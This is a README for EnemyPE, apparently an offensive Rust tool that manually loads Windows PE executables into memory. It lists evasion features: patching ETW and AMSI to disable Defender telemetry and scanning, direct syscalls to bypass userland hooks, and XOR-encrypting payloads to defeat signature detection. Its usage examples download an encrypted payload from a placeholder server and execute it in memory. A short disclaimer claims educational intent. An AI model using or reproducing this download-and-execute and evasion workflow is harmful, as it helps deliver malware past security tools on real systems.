


# EnemyPE — Windows PE Loader

[](https://www.rust-lang.org)
[](LICENSE)
[]()

Manual Windows PE loader written in Rust. Parses PE headers, maps sections into memory, resolves imports, applies base relocations, and transfers execution to the entry point — completely bypassing the standard Windows loader.

---

## Features

### Core PE Loading
- Manual PE header parsing (DOS, NT, Section, Import, Relocation)
- Section mapping with proper memory alignment
- Import resolution via `LoadLibrary` / `GetProcAddress`
- Base relocation processing
- Thread-based execution handoff to OEP
- Supports both x86 (PE32) and x64 (PE32+) binaries

### Evasion 
- **Staged memory protection** — All allocations start as `PAGE_READWRITE`, then each section is re-protected according to its characteristics (`.text` → RX, `.data` → RW, `.rdata` → R), eliminating RWX signatures
- **Direct syscall (x64)** — `NtAllocateVirtualMemory`, `NtProtectVirtualMemory`, `NtCreateThreadEx`, and `NtWaitForSingleObject` invoked via `syscall` instruction with dynamically-resolved SSNs, bypassing userland hooks in `ntdll.dll`
- **ETW patching** — Disables `EtwEventWrite` in `ntdll.dll` at startup to suppress telemetry
- **AMSI patching** — Patches `AmsiScanBuffer` in `amsi.dll` to disable script scanning

### Payload Handling
- **XOR encryption** — 32-byte hardcoded key; encrypt payloads before hosting to defeat static signature scanning
- **Remote loading** — Download and execute PE from `http://` / `https://` URLs with automatic decryption
- **Encrypt utility** — Built-in `--encrypt` flag to XOR-encrypt local files for hosting

---



## Build

### Requirements
- Rust 1.85+ (edition 2024 dependencies)
- Windows OS, or macOS/Linux with MinGW cross-compiler

### Build Commands

**x64 (recommended)**
```bash
cargo build --release --target x86_64-pc-windows-gnu    # MinGW
cargo build --release --target x86_64-pc-windows-msvc   # MSVC
```

**x86**
```bash
cargo build --release --target i686-pc-windows-gnu      # MinGW
cargo build --release --target i686-pc-windows-msvc     # MSVC
```

> **Note:** On macOS/Linux cross-compiling to `-msvc` requires the Visual Studio Build Tools. Use the `-gnu` target instead, which only requires `mingw-w64` (`brew install mingw-w64` on macOS).

### Output
```
target/x86_64-pc-windows-gnu/release/EnemyPE.exe
target/i686-pc-windows-gnu/release/EnemyPE.exe
```

---

## Usage

```
.\EnemyPE.exe

╭─╴╭╮╷╭─╴╭┬╮╷ ╷╭─╮╭─╴
├╴ │╰┤├╴ │││╰┬╯├─╯├╴
╰─╴╵ ╵╰─╴╵ ╵ ╵ ╵  ╰─╴
author : wanmywanny

[*] Process arch: x64
[+] ETW patched (EtwEventWrite)
[+] AMSI patched (AmsiScanBuffer)
[+] Syscall stub resolved
Usage:
  EnemyPE.exe --x86 <file|url>    Load x86 PE
  EnemyPE.exe --x64 <file|url>    Load x64 PE
  EnemyPE.exe --encrypt <file>    XOR-encrypt payload
  EnemyPE.exe --coffee            Easter egg
```

### Examples

**Load a local PE**
```
EnemyPE.exe --x64 payload.exe
EnemyPE.exe --x64 <url>
```

**Download and execute from remote (encrypted)**
```
# Step 1: Encrypt the payload locally
EnemyPE.exe --encrypt payload.exe
# → payload.exe.enc

# Step 2: Host payload.exe.enc on your web server

# Step 3: Load from URL (auto-decrypts in-memory)
EnemyPE.exe --x64 https://your-server.com/payload.exe.enc
```

**Error: mismatched architecture**
```
EnemyPE.exe --x86 x64_payload.exe
# → Current process is x64, cannot load x86 PE from a 64-bit process.
```

---

## How It Works

```
1. Patch ETW + AMSI                    ← disable Defender telemetry
2. Resolve syscall numbers from ntdll  ← direct syscall SSN lookup
3. Download payload (if URL)           ← via ureq
4. XOR decrypt in-memory               ← if encrypted
5. Parse PE headers                    ← DOS, NT, Section, Import, Reloc
6. NtAllocateVirtualMemory (RW)        ← staged allocation
7. Map headers + sections              ← copy from raw bytes
8. Apply base relocations              ← patch absolute addresses
9. Resolve imports                     ← LoadLibrary + GetProcAddress
10. NtProtectVirtualMemory per-section ← .text→RX, .data→RW, .rdata→R
11. NtCreateThreadEx → OEP             ← transfer execution
```

---

## Architecture Notes

| Source File | Purpose |
|---|---|
| `src/main.rs` | CLI entrypoint, argument parsing, file/URL reading |
| `src/loader.rs` | `X86PeLoader` / `X64PeLoader` structs, `load_x86()` / `load_x64()` |
| `src/pe_structures.rs` | PE format structures (`#[repr(C, packed)]`), raw memory readers |
| `src/syscall.rs` | SSN resolver, x64 direct syscall wrappers, x86 API fallback |
| `src/evasion.rs` | ETW + AMSI function patching |
| `src/crypto.rs` | XOR encrypt/decrypt with hardcoded 32-byte key |
| `src/logger.rs` | Colored console output helpers |

### Loader Differences

| Aspect | x86 | x64 |
|---|---|---|
| Allocation | Single block for entire image | Per-section commits within reserved range |
| Relocation type | `0x3` (IMAGE_REL_BASED_HIGHLOW) | `0xA` (IMAGE_REL_BASED_DIR64) |
| IAT entry size | 4 bytes (`u32`) | 8 bytes (`u64`) |
| Syscall | Windows API fallback | Direct `syscall` instruction |

---

## Disclaimer

This project is for **educational and security research purposes only**. The author is not responsible for any misuse.

---

## Author
**wanmywann**

---
